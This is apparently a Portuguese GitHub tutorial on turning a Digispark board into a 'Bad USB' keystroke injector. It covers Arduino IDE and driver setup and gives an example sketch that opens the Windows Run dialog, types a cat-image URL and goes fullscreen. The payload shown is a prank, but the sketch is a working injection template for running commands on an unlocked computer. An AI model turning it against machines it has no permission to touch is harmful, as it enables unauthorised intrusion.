 # Digispark

Um Bad USB é um dispositivo USB que atua como um teclado USB para executar um ataque de injeção de teclas, que pode ser usado para abrir um terminal e executar comandos no computador de destino.
Como esses ataques são programados, eles podem acontecer incrivelmente rápido. É uma loucura como um BadUSB com o script certo pode assumir o controle de um computador desbloqueado em apenas 3 segundos!

# Download da IDE
```
https://www.arduino.cc/en/software
```
Por padrão o arduino não será capaz de reconhecer o digispark
Aki vai o tutorial de como configurar seu arduino para o digispark 

Abra o arduino vá em Arquivo > preferência e copie essa URL
```
https://raw.githubusercontent.com/ArminJo/DigistumpArduino/master/package_digistump_index.json
```
Agora iremos baixar a ferramenta para reconhecer: 
Vá em Ferramentas > Placa > Gerenciador de placa
Digite Digispark e instale o Digistomp AVR
No windows será necessário baixar os drivers caso contrário o Digispark não será detectado

Link para baixar os drivers
```
https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip
```

![Capturar](https://github.com/user-attachments/assets/2ebeb8b6-d0fd-48be-8648-a9fec9f50f4e)


Vá em Ferramentas > Placa > Gerenciador de placa > Digistomp AVR > Digispark
Pronto agora é só colocar o código e executar (Digispark terá 8s para colocar o código )


# Exemplo de codigo para o digispak:

```
#include "DigiKeyboard.h"

// https://cataas.com/cat/says/YOU%20HAV...!
const uint8_t key_arr_0[] PROGMEM = {0,11, 0,23, 0,23, 0,19, 0,22, 2,51, 0,56, 0,56, 0,6, 0,4, 0,23, 0,4, 0,4, 0,22, 0,55, 0,6, 0,18, 0,16, 0,56, 0,6, 0,4, 0,23, 0,56, 0,22, 0,4, 0,28, 0,22, 0,56, 2,28, 2,18, 2,24, 2,34, 0,31, 0,39, 2,11, 2,4, 2,25, 0,55, 0,55, 0,55, 2,30};

void duckyString(const uint8_t* keys, size_t len) {  
    for(size_t i=0; i<len; i+=2) {
        DigiKeyboard.sendKeyStroke(pgm_read_byte_near(keys + i+1), pgm_read_byte_near(keys + i));
    }
}

void setup() {
    pinMode(1, OUTPUT); // Enable LED
    digitalWrite(1, LOW); // Turn LED off
    DigiKeyboard.sendKeyStroke(0); // Tell computer no key is pressed

    DigiKeyboard.delay(1000); // DELAY 1000
    DigiKeyboard.sendKeyStroke(21, 8); // GUI r
    duckyString(key_arr_0, sizeof(key_arr_0)); // STRING https://cataas.com/cat/says/YOU%20HAV...!
    DigiKeyboard.sendKeyStroke(40, 0); // ENTER
    DigiKeyboard.delay(1000); // DELAY 1000
    DigiKeyboard.sendKeyStroke(68, 0); // F11
}

void loop() {}

```
